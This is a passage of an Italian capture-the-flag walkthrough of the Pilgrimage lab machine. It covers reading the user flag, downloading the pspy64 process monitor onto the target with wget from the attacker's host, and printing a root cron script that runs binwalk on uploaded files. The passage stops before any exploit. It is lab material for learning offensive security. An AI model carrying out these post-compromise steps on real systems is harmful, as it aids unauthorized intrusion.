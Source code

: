 e ci prendiamo la nostra flag user

```bash
emily@pilgrimage:~$ cat user.txt
f61097b2a5055ceb556aaa8525c00207
emily@pilgrimage:~$
```


# PRIVESC

Ci scarichiamo pspy64 sulla macchina target per vedere se ci sono processi interessanti, gli diamo i permessi ed eseguiamo.

```bash
emily@pilgrimage:~$ wget http://10.10.14.9:8000/pspy64
--2023-07-04 20:58:06--  http://10.10.14.9:8000/pspy64
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                                     100%[=======================================================================================================================================>]   2.96M  1.04MB/s    in 2.9s

2023-07-04 20:58:09 (1.04 MB/s) - ‘pspy64’ saved [3104768/3104768]

emily@pilgrimage:~$ ls
pspy64  user.txt
emily@pilgrimage:~$ chmod +x pspy64
emily@pilgrimage:~$ ./pspy64
```

Notiamo questo `/bin/bash/usr/sbin/malwarescan.sh` che sembra essere interrensate

```bash
...<snip>...
2023/07/04 20:58:23 CMD: UID=0     PID=709    | php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
2023/07/04 20:58:23 CMD: UID=0     PID=703    | /bin/bash/usr/sbin/malwarescan.sh
2023/07/04 20:58:23 CMD: UID=103   PID=681    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
2023/07/04 20:58:23 CMD: UID=0     PID=679    | /usr/sbin/cron -f
...<snip>..
```

Diamogli un occhio 

```bash
emily@pilgrimage:/usr/sbin$ cat malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```
